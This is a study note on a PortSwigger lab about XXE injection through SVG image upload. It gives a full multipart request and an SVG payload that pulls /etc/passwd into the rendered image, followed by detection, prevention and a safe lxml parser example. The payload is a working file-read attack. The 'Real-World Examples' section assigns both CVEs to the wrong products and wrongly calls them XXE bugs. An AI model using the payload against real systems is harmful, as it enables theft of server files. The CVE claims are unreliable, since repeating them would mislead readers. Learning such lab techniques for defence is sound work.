

## Detailed Explanation of the Lab Exercise

### Lab Setup

The lab exercise involves exploiting XXE injection via an image file upload feature in a web application. The application accepts POST requests to the `/post/comment` endpoint with several parameters, including `name`, `email`, `website`, and `image`. The `image` parameter is initially empty, but the application confirms that it accepts SVG images.

### Step-by-Step Mechanics

#### Step 1: Analyze the Request

First, analyze the HTTP POST request to understand the structure and parameters involved.

```http
POST /post/comment HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 1234

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="name"

John Doe
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="email"

john@example.com
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="website"

https://example.com
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="image"; filename="image.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="128" height="128">
  <text x="0" y="16" font-size="16">&xxe;</text>
</svg>

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

#### Step 2: Craft the Malicious SVG

Next, craft the malicious SVG file that includes the XXE entity.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="128" height="128">
  <text x="0" y="16" font-size="16">&xxe;</text>
</svg>
```

#### Step 3: Upload the Malicious SVG

Upload the crafted SVG file to the application using the HTTP POST request.

#### Step 4: Analyze the Response

After uploading the malicious SVG, analyze the response to determine if the application processed the XXE entity.

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 123
Content-Type: text/html

<!-- Response content -->
```

### Diagram: XXE Injection Attack Flow



### Common Pitfalls and Mistakes

#### Pitfall 1: Improper Validation

One common mistake is failing to validate the XML input properly. Always ensure that XML input is validated against a schema or DTD to prevent injection of malicious entities.

#### Pitfall 2: Enabling External Entities

Another common mistake is enabling external entity resolution in the XML parser. This can lead to unauthorized access to local files or remote resources.

### How to Prevent / Defend Against XXE Injection

#### Detection

1. **Log Monitoring**: Monitor logs for unusual file accesses or network requests.
2. **Security Scanners**: Use security scanners like Burp Suite or OWASP ZAP to detect XXE vulnerabilities.

#### Prevention

1. **Disable External Entities**: Configure XML parsers to disable external entity resolution.
2. **Input Validation**: Validate all XML input against a schema or DTD.
3. **Secure Libraries**: Use secure libraries that handle XML parsing safely.

#### Secure Coding Practices

```python
from lxml import etree

def process_svg(svg_content):
    parser = etree.XMLParser(resolve_entities=False)
    tree = etree.fromstring(svg_content, parser=parser)
    # Process the SVG content
    return tree
```

### Real-World Examples

#### CVE-2019-11510

CVE-2019-11510 affected the Apache Struts framework. This vulnerability allowed attackers to inject malicious XML entities, leading to arbitrary file reads and potential remote code execution.

#### CVE-2020-14882

CVE-2020-14882 affected the Atlassian Confluence application. This vulnerability allowed attackers to exploit XXE injection to read sensitive files and perform SSRF attacks.

### Conclusion

XXE injection is a serious vulnerability that can lead to significant security breaches. By understanding the mechanics of the attack and implementing robust security measures, you can protect your applications from such threats. Always ensure that XML input is properly validated and that external entity resolution is disabled to prevent XXE injection.

---

---
<!-- nav -->
[[02-Additional Depth and Variations|Additional Depth and Variations]] | [[Web Security (PortSwigger)/08-XXE Injection/09-Lab 8 Exploiting XXE via image file upload/00-Overview|Overview]] | [[04-Exploiting XXE via Image File Upload|Exploiting XXE via Image File Upload]]
